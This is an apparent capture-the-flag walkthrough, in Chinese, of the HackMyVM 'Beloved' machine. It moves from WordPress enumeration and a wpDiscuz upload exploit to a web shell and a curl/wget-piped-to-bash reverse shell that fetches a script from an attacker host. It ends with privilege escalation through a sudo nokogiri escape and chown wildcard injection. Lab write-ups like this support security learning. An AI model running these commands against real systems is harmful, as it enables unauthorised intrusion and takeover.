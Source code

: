 # Beloved

2024-11-16 https://hackmyvm.eu/machines/machine.php?vm=Beloved

## IP

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

发现 80web 是 wordpress, 先用 gobuster 扫描看看有没有隐藏目录，发现跳转到域名 beloved 在 /etc/hosts 中添加这个域名：

```
gobuster dir -q -t 64 -e -k --exclude-length 162 -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -x php,txt,zip -u http://beloved/
```

发现 .git 目录：

```
http://beloved/.git/
```

尝试使用 GitHack 导出其信息，404 没有成功

在用 wpscan 扫描：

```
wpscan --url http://beloved/ -e u,ap,at --plugins-detection mixed
```

发现用户名: smart_ass, 使用 cewl 收集网页中的单词作为密码，但是没有爆破出密码。

看看插件有没有漏洞：

```
[+] akismet
Latest Version: 5.3.3

[+] feed
Location: http://192.168.5.39/wp-content/plugins/feed/

[+] wpdiscuz
Version: 7.0.4 (80% confidence)
```

经过 searchsploit 搜索，发现 wpdiscuz 7.0.4 存在未授权的文件 RCE 和文件上传漏洞，先看看 RCE(http://beloved/2021/06/09/hello-world/ 中有回复框可以上传图片，这里是利用点):

```
python3 49967.py -u http://beloved -p /2021/06/09/hello-world/
```

上传 shell 成功，进行访问验证(得到 www-data)：

```
http://beloved/wp-content/uploads/2024/11/dgwxynmnwumjwpo-1731751207.694.php?cmd=id
```

直接获得反弹的 shell：

```
curl -G --data-urlencode 'cmd=wget -q -O - http://192.168.5.3/5-3/8888.sh|bash' http://beloved/wp-content/uploads/2024/11/dgwxynmnwumjwpo-1731751207.694.php
```

先得到 wp-config.php 中的数据库配置信息：

```
define( 'DB_USER', 'wordpress_user' );
define( 'DB_PASSWORD', 'secure_password_2021!!!' );
define( 'DB_HOST', 'localhost' );
```

/etc/passwd 中只发现一个常规用户: beloved

sudo -l 发现：

```
(beloved) NOPASSWD: /usr/local/bin/nokogiri
```

并且发现了使用方法：

```
www-data@beloved:/var/www$ cat .bash_history
stty rows 57 cols 236
export TERM=xterm
clear
sudo -l
sudo -u beloved /usr/local/bin/nokogiri --help
sudo -u beloved /usr/local/bin/nokogiri /etc/passwd
```

开始利用：

```
sudo -u beloved /usr/local/bin/nokogiri /etc/passwd
irb(main):001:0> system "/bin/bash"
```

得到了用户 beloved 的 shell,获取到了 user flag：

```
beloved@beloved:~$ cat user.txt
020588f87676a40236192c324c1a57fc
```

在这个用户的 .bash_history 中看到使用了 pspy，使用 pspy 查看后台服务,发现：

```
/bin/sh -c cd /opt && chown root:root *
```

发现 /opt 中有一个 id_rsa 文件，但是是 root 权限无法读取，看到 chown 后面是跟了星号，这里可以进行利用将权限转移：

```
cd /opt
touch test && touch '--reference=test'
```

过了 1 分钟 就读取到了 id_rsa 的内容，然后使用这个私钥登陆 root 用户，最终获得了 root flag：

```
root@beloved:~# ls
root.txt
root@beloved:~# cat root.txt
d585a3099ec825ec1c086b50ce8ff7d3
```
